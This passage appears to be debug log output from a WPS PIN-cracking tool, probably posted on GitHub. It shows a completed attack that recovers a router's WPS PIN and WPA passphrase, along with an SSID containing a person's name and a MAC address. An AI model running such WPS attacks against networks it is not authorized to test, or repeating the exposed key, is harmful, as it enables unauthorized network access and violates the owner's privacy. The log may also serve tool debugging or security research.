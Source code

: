     [+] Sending M6 message
    send_packet called from send_msg() send.c:116
    WPS: Processing received message (len=168 op_code=4)
    WPS: Received WSC_MSG
    WPS: Unsupported attribute type 0x1049 len=6
    WPS: Parsed WSC_MSG
    WPS: Received M7
    WPS: Processing decrypted Encrypted Settings attribute
    WPS: E-SNonce2 - hexdump(len=16): ab d5 0f 15 8b 7b 7d 41 b5 2d 10 4f bf 18 78 89
    WPS: Enrollee proved knowledge of the second half of the device password
    WPS: Invalidating used wildcard PIN
    WPS: Invalidated PIN for UUID - hexdump(len=16): 63 04 12 53 10 19 20 06 12 28 b4 3d 08 2d 91 41
    WPS: Processing AP Settings
    WPS: SSID - hexdump_ascii(len=18):
        52 61 68 75 6c 20 41 67 61 72 77 61 6c 5f 32 2e   Rahul Agarwal_2.
        34 47                                             4G              
    WPS: Authentication Type: 0x20
    WPS: Encryption Type: 0x8
    WPS: Network Key Index: 1
    WPS: Network Key - hexdump(len=10): 39 35 39 39 36 31 33 33 39 37
    WPS: MAC Address b4:3d:08:2d:91:41
    WPS: Update local configuration based on the AP configuration
    WPS: Processing AP Settings
    WPS: SSID - hexdump_ascii(len=18):
        52 61 68 75 6c 20 41 67 61 72 77 61 6c 5f 32 2e   Rahul Agarwal_2.
        34 47                                             4G              
    WPS: Authentication Type: 0x20
    WPS: Encryption Type: 0x8
    WPS: Network Key Index: 1
    WPS: Network Key - hexdump(len=10): 39 35 39 39 36 31 33 33 39 37
    WPS: MAC Address b4:3d:08:2d:91:41
    WPS: Update local configuration based on the AP configuration
    WPS: WPS_CONTINUE, Freeing Last Message
    WPS: WPS_CONTINUE, Saving Last Message
    WPS: returning
    [+] Received M7 message
    WPS: Building Message WSC_NACK
    WPS:  * Version
    WPS:  * Message Type (14)
    WPS:  * Enrollee Nonce
    WPS:  * Registrar Nonce
    WPS:  * Configuration Error (0)
    [+] Sending WSC NACK
    send_packet called from send_msg() send.c:116
    WPS: Building Message WSC_NACK
    WPS:  * Version
    WPS:  * Message Type (14)
    WPS:  * Enrollee Nonce
    WPS:  * Registrar Nonce
    WPS:  * Configuration Error (0)
    [+] Sending WSC NACK
    send_packet called from send_msg() send.c:116
    [+] Pin cracked in 91 seconds
    [+] WPS PIN: '12345670'
    [+] WPA PSK: '9599613397'
    [+] AP SSID: 'Rahul Agarwal_2.4G'
    ```
    </details>
